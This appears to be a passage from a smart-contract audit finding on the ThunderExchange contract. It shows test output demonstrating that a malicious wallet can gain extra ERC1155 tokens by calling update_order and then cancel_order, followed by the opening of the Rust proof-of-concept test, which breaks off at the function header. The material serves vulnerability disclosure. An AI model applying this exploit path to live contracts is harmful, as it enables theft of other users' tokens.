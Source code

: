 ```bash
cargo test  -- --nocapture

running 1 test
test can_steal_erc1155_by_update_sell ... at start, mint wallet_1 and wallet2 10 tokens each
wallet_1 balance: 10
waleet_2 balance: 10
after wallet_1 and wallet2 calls place_order to fill sell order with 5 tokens each
wallet_1 balance: 5
waleet_2 balance: 5
after malicious  wallet_1 calls update_order and cancel_order, he get more erc1155 token than expected
wallet_1 balance: 15
waleet_2 balance: 5
ok

test result: ok. 1 passed; 0 failed; 0 ignored; 0 measured; 0 filtered out; finished in 1.85s
```

As the test case shows, by abusing `thunder_exchange.update_order` and `thunder_exchange.cancel_order`, the malicious user(wallet_1) get more erc1155 token than expected.

```Rust
use fuels::{prelude::*, types::ContractId};

use std::str::FromStr;
 
use fuels::types::{Address, AssetId, Bits256, Bytes32, Identity};
use sha2::{Digest, Sha256};
use fuels::{programs::calls::Execution,};

// Load abi from json
abigen!(
    Contract(
        name = "ThunderExchange",
        abi = "out/debug/thunder_exchange-abi.json"
    ),
    Contract(
        name = "NFT",
        abi = "out/debug/NFT-contract-abi.json"
    ),
    Contract(
        name = "ExecutionManager",
        abi = "out/debug/execution_manager-abi.json"
    ),
    Contract(
        name = "ExecutionStrategy",
        abi = "out/debug/strategy_fixed_price_sale-abi.json"
    ),
    Contract(
        name = "AssetManager",
        abi = "out/debug/asset_manager-abi.json"
    ),
    Contract(
        name = "Pool",
        abi = "out/debug/pool-abi.json"
    ),
    Contract(
        name = "RoyaltyManager",
        abi = "out/debug/royalty_manager-abi.json"
    ));


#[tokio::test]
async fn can_steal_erc1155_by_update_sell()  -> Result<()> {
```